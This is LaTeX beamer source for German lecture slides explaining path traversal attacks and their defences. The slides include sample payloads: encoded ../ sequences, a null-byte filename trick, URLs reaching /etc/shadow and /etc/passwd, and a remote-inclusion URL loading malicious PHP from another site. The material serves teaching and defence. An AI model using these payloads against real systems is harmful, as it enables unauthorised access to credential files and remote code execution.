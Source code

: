 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{Path Traversal Attack}
  Ein HTTP Angriff, bei dem ein Angreifer Zugriff auf gesperrte Verzeichnisse gewinnt und Code ausserhalb des Web Root Verzeichnisses ausf\"uhrt.
  \newline
  \newline
  Web Container Encoding:
  \begin{lstlisting}[style=BashStyle]
  ..%c0%af represents ../
  ..%c1%9c represents ..\
  \end{lstlisting}

  Null bytes \%00 k\"onnen injeziert werden um Dateinahmen zu terminieren.
  \begin{lstlisting}[style=BashStyle]
  ?file=secret.doc%00.pdf
  \end{lstlisting}
  Java sieht .pdf, Betriebssystem sieht .doc
\end{frame}

\begin{frame}[fragile]{Path Traversal Attack - Beispiele}
  Beispiel Zugriff auf Dateien:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/get-files.jsp?file=report.pdf
  http://some_site.com.br/some-page.asp?page=index.html
  \end{lstlisting}

  UNIX Passwort abgreifen:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/../../../../etc/shadow
  http://some_site.com.br/get-files?file=/etc/passwd
  \end{lstlisting}

  Auch m\"oglich Dateien und Scripte von externen Websiten einzibinden:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/some-page?page=http:
    //other-site.com.br/other-page.htm/malicius-code.php
  \end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Path Traversal Attack - Schutzma{\ss}nahmen}
  \begin{itemize}
    \item Nutzereingaben vermeiden wenn m\"oglich, bei Datei System Aufrufen
    \item Indexes anstatt Dateinahmen verwenden, f\"ur Benutzereingaben
    \item Nutzer soll nicht ganzen Pfad eingeben k\"onnen, mit eigenem Pfad umgeben
    \item Pfade normalisieren
    \begin{itemize}
      \item "." Segmente entfernen
      \item ".." - Segmente die ein nicht-".." Segment dafor haben werden entfernt
      \item Wenn Pfad relative und das erste Segment enth\"alt ein ":" Charackter dann wir ein "." vorangestellt
    \end{itemize}
  \end{itemize}
\end{frame}
\end{document}
